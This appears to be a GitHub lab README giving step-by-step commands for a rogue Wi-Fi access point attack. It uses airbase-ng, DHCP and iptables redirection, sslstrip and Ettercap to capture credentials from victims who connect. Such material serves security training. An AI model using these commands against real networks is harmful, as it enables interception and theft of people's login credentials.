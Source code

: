 # Rogue Access Point Attack
_For Educational Purposes Only_
## Attack High Level Overview:
1. Victim connects to fake AP.
2. Victim connects to the internet via the fake AP.
3. Using sslstrip and Ettercap to capture credentials.
4. The fake AP forwards the victim to the legitimate website.

## How to Create the Attack:
1. Setup adapter and bridge network.
2. Create a DHCP server and configure settings.
3. Using airmon-ng to monitor network.
4. Use airbase-ng to start your rogue access point.
5. Modify airbase tunnel to gain internet connection.
6. Start sslstrip and Ettercap.

### Task 0 – Setup Adapter and Bridge Network
Connect the wireless adapter to your device and make sure to bridge your internet to the adapter.  
**VM Network Setting:** Bridged (autodetect)

**Troubleshooting Alfa AWUS036NHA in Windows 10/11**  
Download this link to be used as manual driver:  
[Alfa AWUS036NHA Driver](https://rokland.com/mask/drivers/awus036nha/Alfa-AWUS036NHA-Win10.zip)

### Task 1 – Create DHCP Server and Configure Settings
Make note of your gateway IP and the adapter interface.

![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/e0c7dd18-a2e8-48e6-8c22-721726840139)

![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/9b7dd808-7d3e-4ba9-9ca3-38d45f6874c3)

Run the command below to install the DHCP server package, which was formerly known as dhcp3-server:
```bash
sudo apt install isc-dhcp-server
```
Now, open and modify the main configuration file, define your DHCP server options:
```bash
sudo vi /etc/dhcp/dhcpd.conf
```

Make the following changes:

    authoritative;
    default-lease-time 600;
    max-lease-time 7200;
    subnet 192.168.1.0 netmask 255.255.255.0 {
      option routers 192.168.1.1;
      option subnet-mask 255.255.255.0;
      option domain-name 'wifiname';
      option domain-name-server 192.168.1.1;
      range 192.168.1.2 192.168.1.40;
    }

![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/155343da-b965-49fe-be41-ef8562e35e28)

### Task 2 – Using airmon-ng to Monitor Network
```bash 
sudo airmon-ng
```
![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/3cbe6c92-f446-4922-bd6c-b05b2fc8f49b)

```bash 
sudo airmon-ng start <interface>
```
![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/3f272a6a-2ad8-4d5c-befa-497ea1edae2e)

### Task 3 – Use airbase-ng to Start Your Rogue Access Point

```bash 
sudo airbase-ng -c 11 -e freewifi <mon interface>
```
![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/a185f47a-4f74-4063-a78d-04a3f9ee078e)

![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/2583ea9d-7e7f-4cc5-947a-ea5ec33227d1)

Now that we have our AP up and running, we will make some changes to the tunnel interface created by airbase-ng.

**Keep the airbase-ng terminal running and continue the following tasks in new terminals.**

Run the following commands in a new terminal:
```bash
ifconfig at0 192.168.1.1 netmask 255.255.255.0
ifconfig at0 mtu 1400
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p udp -j DNAT --to 192.168.0.1
iptables -P FORWARD ACCEPT
iptables --append FORWARD --in-interface at0 -j ACCEPT
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
dhcpd -cf /etc/dhcpd.conf -pf /var/run/dhcpd.pid at0
/etc/init.d/isc-dhcp-server start
```

**What’s happening here?**  
In the second command, we are adjusting the maximum transmission unit (MTU), which allows our AP to transfer larger packets and thus prevent any packet fragmentation due to low transmission units available. Then, we are adding a routing table. Next, we create IP forwarding to ensure the AP clients have internet connections. We do that by adding IP forwarding rules. We start by echoing into the `ip_forward` file and then write all the rules as illustrated in the commands.  
_The highlighted value is the gateway address for our host machine._  
Finally, we start our DHCP server.  
**You will need to be root or use sudo to run all commands.**

### Task 4 – Start sslstrip and Ettercap

Run the following commands:
```bash
sslstrip -f -p -k 10000
```
_Keep this terminal open and open another terminal for Ettercap._

In the new terminal, run the following command to start Ettercap:
```bash
ettercap -p -u -T -q -i at0
```

_Keep this terminal open._

### Task 5 – Start Capturing Credentials

You will see the victim's activity and credentials on the Ettercap terminal.

To view what sslstrip captured, run:
```bash
cat sslstrip.log
```

_Note:_ sslstrip and ettercap commands might be outdated. 


## Resources:
[Install DHCP Server in Ubuntu/Debian](https://www.tecmint.com/install-dhcp-server-in-ubuntu-debian/)
[YouTube Video on Creating Rogue AP](https://www.youtube.com/watch?v=HePt2J4uSno&list=LL&index=1&t=644s&pp=gAQBiAQB8AUB)
